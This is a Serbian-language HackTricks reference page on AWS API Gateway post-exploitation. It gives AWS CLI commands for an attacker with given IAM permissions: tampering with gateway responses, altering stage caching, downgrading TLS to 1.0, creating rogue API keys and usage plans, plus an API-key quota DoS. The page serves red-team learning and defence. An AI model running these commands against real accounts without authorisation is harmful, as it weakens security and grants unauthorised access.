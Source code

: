 # AWS - Posteksploatacija API Gateway-a

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## API Gateway

Za više informacija pogledajte:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Pristup neizloženim API-ima

Možete kreirati endpoint na [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) sa servisom `com.amazonaws.us-east-1.execute-api`, izložiti endpoint u mreži gde imate pristup (potencijalno putem EC2 mašine) i dodeliti sigurnosnu grupu koja dozvoljava sve konekcije.\
Zatim, sa EC2 mašine ćete moći da pristupite endpointu i stoga pozovete API gateway koji prethodno nije bio izložen.

### DoS napadi na planove korišćenja

U odeljku **Enumeracija** možete videti kako **dobiti plan korišćenja** ključeva. Ako imate ključ i on je **ograničen** na X korišćenja **mesečno**, možete ga **jednostavno koristiti i izazvati DoS**.

**API ključ** samo treba da bude **uključen** unutar **HTTP zaglavlja** nazvanog **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` može **modifikovati postojeći Gateway Response da uključi prilagođena zaglavlja ili šablone odgovora koji otkrivaju osetljive informacije ili izvršavaju zlonamerne skripte**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Otkrivanje osetljivih informacija, izvršavanje zlonamernih skriptova ili neovlašćen pristup resursima API-ja.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateStage` i `apigateway:CreateDeployment` može **izmeniti postojeći API Gateway stage kako bi preusmerio saobraćaj na drugi stage ili promenio postavke keširanja kako bi stekao neovlašćen pristup keširanim podacima**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Neovlašćen pristup keširanim podacima, ometanje ili presretanje API saobraćaja.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` može **modifikovati odgovor metode postojeće API Gateway REST API metode da uključi prilagođene zaglavlja ili šablone odgovora koji otkrivaju osetljive informacije ili izvršavaju zlonamerne skripte**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencijalni uticaj**: Otkrivanje osetljivih informacija, izvršavanje zlonamernih skriptova ili neovlašćen pristup API resursima.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` može **modifikovati postavke API Gateway REST API-ja kako bi onemogućio beleženje ili promenio minimalnu verziju TLS-a, potencijalno oslabljujući bezbednost API-ja**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencijalni uticaj**: Oslabljuje sigurnost API-ja, potencijalno omogućavajući neovlašćen pristup ili otkrivanje osetljivih informacija.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Napadač sa dozvolama `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` i `apigateway:CreateUsagePlanKey` može **kreirati nove API ključeve, povezati ih sa planovima korišćenja, a zatim koristiti ove ključeve za neovlašćen pristup API-ima**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencijalni uticaj**: Neovlašćen pristup API resursima, zaobilazak sigurnosnih kontrola.

{% hint style="info" %}
Potrebno je testiranje
{% endhint %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

